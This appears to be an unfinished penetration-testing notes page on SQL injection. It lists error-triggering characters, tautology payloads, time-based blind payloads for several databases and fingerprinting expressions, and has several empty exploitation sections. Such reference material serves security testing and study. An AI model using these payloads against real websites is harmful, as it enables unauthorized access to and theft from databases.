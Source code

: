 ```yaml
---
sort : 2
---
```


# SQL Injection

# 1. Detecte The Vulnerability 

## By triggering an error 

For every request we intercept, one of the GET param or POST data could be vulnerable to SQL injection, so, How can we know if it is.

```
[None]
'       ''      %27     
"       ""      %22
`       ``
#       ##      %23
;       ;;      %3B
*       ** 
/       //
\       \\
/*


%00     ;%00
-- -
/*…*/
+ 
||
% 
```

## With logical operations

```
" OR 1 = 1 -- -
' OR 1 -- -
" OR "" = "
' OR '' = '
' OR '1
```

## with Timing (Blindly)

```
MySQL (string concat and logical ops)
1' + sleep(10)
1' and sleep(10)
1' && sleep(10)
1' | sleep(10)

PostgreSQL (only support string concat)
1' || pg_sleep(10)

MSQL
1' WAITFOR DELAY '0:0:10'

Oracle
1' AND [RANDNUM]=DBMS_PIPE.RECEIVE_MESSAGE('[RANDSTR]',[SLEEPTIME])
1' AND 123=DBMS_PIPE.RECEIVE_MESSAGE('ASD',10)

SQLite
1' AND [RANDNUM]=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB([SLEEPTIME]00000000/2))))
1' AND 123=LIKE('ABCDEFG',UPPER(HEX(RANDOMBLOB(1000000000/2))))
```


[FOR MORE](https://ismailtasdelen.medium.com/sql-injection-payload-list-b97656cfd66b)






# 2. DBMS Identification

## Mysql
```mysql
conv('a',16,2)=conv('a',16,2)
connection_id()=connection_id()
crc32('MySQL')=crc32('MySQL')
BINARY_CHECKSUM(123)=BINARY_CHECKSUM(123)
@@CONNECTIONS>0
@@CONNECTIONS=@@CONNECTIONS
```
> Ex : 'OR `conv('a',16,2)=conv('a',16,2)` -- -

## Oracle 
```oracle
ROWNUM=ROWNUM
RAWTOHEX('AB')=RAWTOHEX('AB')
LNNVL(0=123)
```

## Postgresql
```postgresql
5::int=5
5::integer=5
pg_client_encoding()=pg_client_encoding()
get_current_ts_config()=get_current_ts_config()
quote_literal(42.5)=quote_literal(42.5)
current_database()=current_database()
```

## Sqlite
```sqlite
sqlite_version()=sqlite_version()
last_insert_rowid()>1
last_insert_rowid()=last_insert_rowid()
```










### 3. Bypass the query

#### Using WHERE
```

```


#### Using LIKE









# Exploitation

1. Detecting number of columns
2. Detecting Data types of columns 
3. Extract database names, table names and column names
4. dump their content

### In-Band (Calssic)
 


### Blind 



### Out-Of-Band




## 3. References
* https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/#MySQLInlineSamples














Web crawler is also used to
insert illegal characters into the query string of a URL and check for any error result sent
by the server






M : 	MySQL
S : 	SQL Server
P : 	PostgreSQL
O : 	Oracle
+ : 	Possibly all other databases


Examples;

    (MS) means : MySQL and SQL Server etc.
    (M*S) means : Only in some versions of MySQL or special conditions see related note and SQL Server
